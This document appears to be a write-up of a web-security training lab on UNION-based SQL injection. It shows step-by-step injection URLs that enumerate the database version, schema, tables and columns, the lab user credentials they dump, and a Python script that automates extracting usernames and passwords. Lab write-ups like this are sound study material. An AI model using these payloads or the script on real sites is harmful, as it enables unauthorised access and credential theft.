








# SQL injection attack, listing the database contents on non-Oracle databases

URL: https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/

## Sitemap:

URL: https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/

URL: https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/filter?category=Gifts

## Exploitation:

### Getting 500:

URL: `https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/filter?category=Gifts'`



### Getting the number of fields:

URL: `https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/filter?category='+UNION+SELECT+NULL,NULL--+-`



### Finding the STRING field:

URL: `https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/filter?category='+UNION+SELECT+'aaa','bbb'--+-`



### Getting the version:

URL: `https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/filter?category='+UNION+SELECT+CAST(version()+as+varchar),'bbb'--+-`



### Getting database name:

URL: `https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/filter?category='+UNION+SELECT+CAST(current_database()+as+varchar),'bbb'--+-`



### Getting current schema:

URL: `https://0a65000103f3305880eee9ff00cf003d.web-security-academy.net/filter?category='+UNION+SELECT+CAST(current_schema()+as+varchar),'bbb'--+-`



### Get table names:

URL: `https://0a2a0063032c498b8097ad3f00a8005f.web-security-academy.net/filter?category='+UNION+SELECT+CAST(table_name+as+varchar),'bbb'+from+information_schema.tables+where+table_schema='public'--+-`



Tables:

- `users_fvkxdf`
- `products`

### Get column names form table `users_fvkxdf`:

URL: `https://0a3000bb03a6c1488224150500e800be.web-security-academy.net/filter?category='+UNION+SELECT+CAST(column_name+as+varchar),'bbb'+from+information_schema.columns+where+table_name+like+'users%25'--+-`



Tables:

- `password_wrjaxr`
- `username_flhhfy`

### Get username and password:

URL: `https://0a3000bb03a6c1488224150500e800be.web-security-academy.net/filter?category='+UNION+SELECT+CAST(username_flhhfy+as+varchar),cast(password_wrjaxr+as+varchar)+from+users_wfcgsf--+-`

Data:

- `carlos:a3nzjw9s1m5tifeku3js`
- `wiener:zq31cei7jia0nso8ypci`
- `administrator:ltxp7mxle25lv0uv1w4k`

## Automation:

```python
#!/usr/bin/python3
##
import requests
import re
import pwn
##
Payload1="/filter?category='+UNION+SELECT+"
Payload2=",NULL--+-"
##
def get_version(URL):
    send=URL+Payload1+"version()"+Payload2
    r=requests.get(send)
    version=str(re.findall("<th>.*</th>",r.text)).split(">")[1].split("<")[0]
    return version
##
def get_current_db(URL):
    send=URL+Payload1+"current_database()"+Payload2
    r=requests.get(send)
    db=str(re.findall("<th>.*</th>",r.text)).split(">")[1].split("<")[0]
    return db
##
def get_current_schema(URL):
    send=URL+Payload1+"current_schema()"+Payload2
    r=requests.get(send)
    schema=str(re.findall("<th>.*</th>",r.text)).split(">")[1].split("<")[0]
    return schema
##
def get_tables(URL,schema):
    send=URL+Payload1+f"table_name,NULL+from+information_schema.tables+where+table_schema='{schema}'--+-"
    r=requests.get(send)
    tables=[]
    for X in re.findall("<th>.*</th>",r.text):
        tables.append(X.split('>')[1].split('<')[0])
    return tables
##
def get_columns(URL,tables):
    users=tables[0]
    send=URL+Payload1+f"column_name,NULL+from+information_schema.columns+where+table_name='{users}'--+-"
    r=requests.get(send)
    cols=[]
    for X in re.findall("<th>.*</th>",r.text):
        cols.append(X.split('>')[1].split('<')[0])
    return cols
##
def pwn(URL,cols,users):
    send=URL+Payload1+f"{cols[0]},{cols[1]}+from+{users}--+-"
    r=requests.get(send)
    usernames=[]
    passwords=[]
    data=[]
    for X in re.findall("<th>.*</th>",r.text):
        passwords.append(X.split('>')[1].split('<')[0])
    for Y in re.findall("<td>.*</td>",r.text):
        usernames.append(Y.split('>')[1].split('<')[0])
    for i in range(0,len(usernames),1):
        data.append((usernames[i],passwords[i]))
    return data
##
def main(URL):
    version=get_version(URL)
    print(f"The version is: {version}")
    db=get_current_db(URL)
    print(f"The current databse is: {db}")
    schema=get_current_schema(URL)
    print(f"The current schema is: {schema}")
    tables=get_tables(URL,schema)
    print(f"The tables are: {tables}")
    cols=get_columns(URL,tables)
    print(f"The columns for the table {tables[0]} are: {cols}")
    data=pwn(URL,cols,tables[0])
    print(f"The stolen creds are:\n{data}")
##
main("https://0a3000bb03a6c1488224150500e800be.web-security-academy.net")
```
